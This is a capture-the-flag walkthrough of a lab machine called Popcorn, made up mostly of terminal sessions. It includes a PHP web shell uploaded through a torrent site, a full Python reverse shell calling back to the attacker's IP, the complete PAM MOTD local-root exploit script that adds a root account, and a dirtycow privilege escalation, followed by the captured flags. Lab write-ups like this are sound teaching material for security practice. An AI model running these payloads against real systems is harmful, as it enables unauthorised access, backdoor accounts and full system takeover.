

#### Popcorn

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Gobuster](#gobuster)
- [HTTP Enumeration](#http-enumeration)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalating using MOTD](#privilege-escalating-using-motd)
- [Privilege Escalating using dirtycow](#privilege-escalating-using-dirtycow)

###### Attacker Info

```sh
root@kali:~/popcorn# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 15604  bytes 2781841 (2.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16092  bytes 3838924 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1356  bytes 397497 (388.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1356  bytes 397497 (388.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.13  netmask 255.255.254.0  destination 10.10.14.13
        inet6 fe80::23dc:6b15:11b5:75aa  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100b  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2359  bytes 244533 (238.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9401  bytes 2292872 (2.1 MiB)
        TX errors 0  dropped 77 overruns 0  carrier 0  collisions 0

root@kali:~/popcorn#
```

###### Nmap Scan

```sh
root@kali:~/popcorn# nmap -sV -sC -oA popcorn.nmap 10.10.10.6

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-05 14:59 EST
Nmap scan report for 10.10.10.6
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
root@kali:~/popcorn#
```

###### Gobuster

```sh
root@kali:~/popcorn# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.6 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.6/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/index (Status: 200)
/test (Status: 200)
/torrent (Status: 301)
/rename (Status: 301)
=====================================================
root@kali:~/popcorn#
```

###### HTTP Enumeration

```
http://10.10.10.6
http://10.10.10.6/test
http://10.10.10.6/torrent
```


###### Reverse Shell

``php-onelineshell.php``

```php
<?php echo system($_REQUEST['cmd']); ?>
```


```
http://10.10.10.6/torrent/upload
```



```
http://10.10.10.6/torrent/upload/4d399e8818ba94deededadc0ab92f88d8000bcf7.php
http://10.10.10.6/torrent/upload/4d399e8818ba94deededadc0ab92f88d8000bcf7.php?cmd=whoami
```


[``python-pty-shells``](https://github.com/infodox/python-pty-shells.git)

```sh
root@kali:~/popcorn# git clone https://github.com/infodox/python-pty-shells.git
Cloning into 'python-pty-shells'...
remote: Counting objects: 55, done.
remote: Total 55 (delta 0), reused 0 (delta 0), pack-reused 55
Unpacking objects: 100% (55/55), done.
root@kali:~/popcorn# cd python-pty-shells/
root@kali:~/popcorn/python-pty-shells#  ls -la
total 68
drwxr-xr-x 3 root root 4096 Feb  5 17:36 .
drwxr-xr-x 3 root root 4096 Feb  5 17:36 ..
drwxr-xr-x 8 root root 4096 Feb  5 17:36 .git
-rw-r--r-- 1 root root  483 Feb  5 17:36 .gitattributes
-rw-r--r-- 1 root root 2643 Feb  5 17:36 .gitignore
-rw-r--r-- 1 root root  483 Feb  5 17:36 LICENCE.md
-rw-r--r-- 1 root root 1107 Feb  5 17:36 README.md
-rw-r--r-- 1 root root  660 Feb  5 17:36 sctp_pty_backconnect.py
-rw-r--r-- 1 root root  621 Feb  5 17:36 sctp_pty_bind.py
-rw-r--r-- 1 root root 5378 Feb  5 17:36 sctp_pty_shell_handler.py
-rw-r--r-- 1 root root  686 Feb  5 17:36 tcp_pty_backconnect.py
-rw-r--r-- 1 root root  565 Feb  5 17:36 tcp_pty_bind.py
-rw-r--r-- 1 root root 5329 Feb  5 17:36 tcp_pty_shell_handler.py
-rw-r--r-- 1 root root  819 Feb  5 17:36 udp_pty_backconnect.py
-rw-r--r-- 1 root root  564 Feb  5 17:36 udp_pty_bind.py
root@kali:~/popcorn/python-pty-shells#
```

``tcp_pty_backconnect.py``

```python
#!/usr/bin/python2
"""
Reverse Connect TCP PTY Shell - v1.0
infodox - insecurety.net (2013)

Gives a reverse connect PTY over TCP.

For an excellent listener use the following socat command:
socat file:`tty`,echo=0,raw tcp4-listen:PORT

Or use the included tcp_pty_shell_handler.py
"""
import os
import pty
import socket

lhost = "10.10.14.13" # XXX: CHANGEME
lport = 31337 # XXX: CHANGEME

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()

if __name__ == "__main__":
    main()
```


```sh
root@kali:~/popcorn/python-pty-shells# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.6 - - [05/Feb/2018 17:57:20] "GET /tcp_pty_backconnect.py HTTP/1.0" 200 -
```


```sh
root@kali:~/popcorn/python-pty-shells# python tcp_pty_shell_handler.py -b 10.10.14.13:31337
www-data@popcorn:/var/www/torrent/upload$ find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null | column -t
home                       /home                                     root    root    755
george                     /home/george                              george  george  755
.bash_logout               /home/george/.bash_logout                 george  george  644
.bashrc                    /home/george/.bashrc                      george  george  644
torrenthoster.zip          /home/george/torrenthoster.zip            george  george  644
.cache                     /home/george/.cache                       george  george  755
motd.legal-displayed       /home/george/.cache/motd.legal-displayed  george  george  644
.sudo_as_admin_successful  /home/george/.sudo_as_admin_successful    george  george  644
user.txt                   /home/george/user.txt                     george  george  644
.nano_history              /home/george/.nano_history                root    root    600
.mysql_history             /home/george/.mysql_history               root    root    600
.bash_history              /home/george/.bash_history                root    root    600
.profile                   /home/george/.profile                     george  george  644
www-data@popcorn:/var/www/torrent/upload$ 
```

###### Privilege Escalating using MOTD

```sh
root@kali:~/popcorn# searchsploit motd

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (1)                                                                                  | exploits/linux/local/14273.sh
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)                                                                                  | exploits/linux/local/14339.sh
MultiTheftAuto 0.5 patch 1 - Server Crash / MOTD Deletion                                                                                                           | exploits/windows/dos/1235.c
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/popcorn#
```

```sh
www-data@popcorn:/var/www/torrent/upload$ dpkg -l | grep -i pam
ii  libpam-modules                      1.1.0-2ubuntu1                    Pluggable Authentication Modules for PAM
ii  libpam-runtime                      1.1.0-2ubuntu1                    Runtime support for the PAM library
ii  libpam0g                            1.1.0-2ubuntu1                    Pluggable Authentication Modules library
ii  python-pam                          0.4.2-12ubuntu3                   A Python interface to the PAM library
www-data@popcorn:/var/www/torrent/upload$
```

```sh
root@kali:~/popcorn# searchsploit -m exploits/linux/local/14339.sh

  Exploit: Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)
      URL: https://www.exploit-db.com/exploits/14339/
     Path: /usr/share/exploitdb/exploits/linux/local/14339.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /root/popcorn/14339.sh


root@kali:~/popcorn#
```

``14339.sh``

```sh
#!/bin/bash
#
# Exploit Title: Ubuntu PAM MOTD local root
# Date: July 9, 2010
# Author: Anonymous
# Software Link: http://packages.ubuntu.com/
# Version: pam-1.1.0
# Tested on: Ubuntu 9.10 (Karmic Koala), Ubuntu 10.04 LTS (Lucid Lynx)
# CVE: CVE-2010-0832
# Patch Instructions: sudo aptitude -y update; sudo aptitude -y install libpam~n~i
# References: http://www.exploit-db.com/exploits/14273/ by Kristian Erik Hermansen
#
# Local root by adding temporary user toor:toor with id 0 to /etc/passwd & /etc/shadow.
# Does not prompt for login by creating temporary SSH key and authorized_keys entry.
#
#   user@ubuntu:~$ bash ubuntu-pam-motd-localroot.sh
#   [*] Ubuntu PAM MOTD local root
#   [*] Backuped /home/user/.ssh/authorized_keys
#   [*] SSH key set up
#   [*] Backuped /home/user/.cache
#   [*] spawn ssh
#   [+] owned: /etc/passwd
#   [*] spawn ssh
#   [+] owned: /etc/shadow
#   [*] Restored /home/user/.cache
#   [*] Restored /home/user/.ssh/authorized_keys
#   [*] SSH key removed
#   [+] Success! Use password toor to get root
#   Password:
#   root@ubuntu:/home/user# id
#   uid=0(root) gid=0(root) groupes=0(root)
#
P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
    [ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
    [ -e "$1" ] || return 0
    mv "$1"{,.bak} || return 1
    echo "[*] Backuped $1"
}
restore() {
    [ -e "$1" ] && rm -rf "$1"
    [ -e "$1".bak ] || return 0
    mv "$1"{.bak,} || return 1
    echo "[*] Restored $1"
}
key_create() {
    backup ~/.ssh/authorized_keys
    ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
    [ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
    mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
    echo "[*] SSH key set up"
}
key_remove() {
    rm -f "$KEY"
    restore ~/.ssh/authorized_keys
    echo "[*] SSH key removed"
}
own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}
bye() {
    key_remove
    exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```

```sh
www-data@popcorn:/dev/shm$ vi privesc.sh
www-data@popcorn:/dev/shm$ ls
privesc.sh
www-data@popcorn:/dev/shm$ bash privesc.sh
privesc.sh: line 2: it: command not found
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password:
root@popcorn:/dev/shm#
```

```sh
root@popcorn:~# cat root.txt
f122331023a9393319a0370129fd9b14
root@popcorn:~#
```

```sh
www-data@popcorn:/var/www/torrent/upload$ cat /home/george/user.txt
5e36a919398ecc5d5c110f2d865cf136
www-data@popcorn:/var/www/torrent/upload$
```

###### Privilege Escalating using dirtycow

[``dirtycow``](https://dirtycow.ninja/)


[``FireFart/dirtycow - dirty.c``](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)


```sh
www-data@popcorn:/dev/shm$ vi dirty.c
www-data@popcorn:/dev/shm$ ls
dirty.c
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/dev/shm$ chmod +x dirty
www-data@popcorn:/dev/shm$ ls -l
total 24
-rwxr-xr-x 1 www-data www-data 13603 Feb  6 01:20 dirty
-rw-r--r-- 1 www-data www-data  4815 Feb  6 01:19 dirty.c
www-data@popcorn:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b77f7000
^Z
[1]+  Stopped                 ./dirty
www-data@popcorn:/dev/shm$ su firefart
Password:
firefart@popcorn:/dev/shm# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:/dev/shm# cd /root/
firefart@popcorn:~# ls
root.txt
firefart@popcorn:~# cat root.txt
f122331023a9393319a0370129fd9b14
firefart@popcorn:~#
```
